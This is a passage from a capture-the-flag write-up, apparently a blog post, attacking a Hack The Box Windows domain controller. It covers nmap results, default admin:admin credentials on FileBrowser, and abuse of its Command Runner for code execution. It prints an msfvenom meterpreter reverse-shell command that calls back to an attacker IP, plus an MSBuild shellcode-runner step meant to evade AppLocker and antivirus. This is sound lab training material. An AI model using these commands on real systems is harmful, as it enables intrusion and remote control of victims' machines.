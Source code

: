 65341/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CFN-SVRDC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m55s, deviation: 0s, median: 2m55s
| smb2-time: 
|   date: 2022-07-16T02:57:37
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
{% endhighlight %}
From this, we see DNS (TCP port 53), Kerberos (TCP port 88) and LDAP (TCP port 389) open. This information tells us that this box is most likely a domain controller, and tells us the domain name certification.htb and name of the machine CFN-SVRDC01.certification.htb . We also see two different web applications running, one on TCP port 80 (with the title SSL Digital Certificate Authority) and one on TCP port 8000 (with the title FileBrowser).<br/>
Based on this, add a new entry in your /etc/hosts file for certification.htb and CFN-SVRDC01.certification.htb pointing to the IP address of this box.
### Port 80
Navigating to port 80 we see a website showing that this web page is for the fake It Expert company that offers itself as a certificate authority, and provides TLS/SSL certificates for customers.
{% include figure image_path="/assets/img/htbcertificateport80.png" %}

After looking around and enumerating it was found that nothing interesting was on this port.

### Port 8000 - FileBrowser
Navigating to the web application on port 8000 we are presented with a login in page to an application called "FileBrowser".

After a bit, we found that the credentials "admin":"admin" are valid to gain access to the application.

Within the application, there was a bunch of files created for different customers to server SSL certificates.

### RCE - Initial Access
Looking in the "Setting" of this application, within the Global Settings, theres a section called "Command Runner" which can be used to specify OS commands to run when certain actions are performed (i.e. a File is Uploaded, a File is renamed).
{% include figure image_path="/assets/img/htbcertificateport8000.png" %}
{% include figure image_path="/assets/img/commandrunner.png"  %}
Based on this information, it is assumed we can run any binary on the Window's host when a certain action is performed against a file. So first, we need to generate some form of payload to execute. In order to ensure our payload will work even if the machine has AppLocker + Anti-Virus + PowerShell set to Constrained Language Mode, I generated an MSBuild shellcode runner, and then used PowerShell to download and then run this payload.
Firstly msfvenom was used to generate the shellcode using the command:
{% highlight csharp %}
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.14.26 LPORT=443 -f raw > shellcode.bin

{% endhighlight %}
{% include figure image_path="/assets/img/msfvenomhtb.png" %}
Then a custom Python script was used to generate an MSBuild XML file shellcode runner:
{% highlight csharp %}
python3 /opt/myScripts/msbuild-aes.py -s shellcode.bin -e -o shell.xml
{% endhighlight %}